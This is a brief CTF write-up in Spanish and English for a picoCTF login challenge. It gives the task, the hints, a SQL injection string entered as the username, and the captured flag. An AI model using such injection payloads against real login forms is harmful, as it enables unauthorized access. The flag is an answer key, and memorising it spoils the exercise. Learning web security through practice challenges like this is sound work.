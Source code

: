 ## Obejtivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Hints
- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

## Solución
```
En usuario usamos lo siguiente "105' or 1=1;"
y de password ponemos lo que nosotros queremos, una vesque ingresamos nos muestra lo siguiente 
Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```
## Solucion
picoCTF{s0m3_SQL_fb3fe2ad}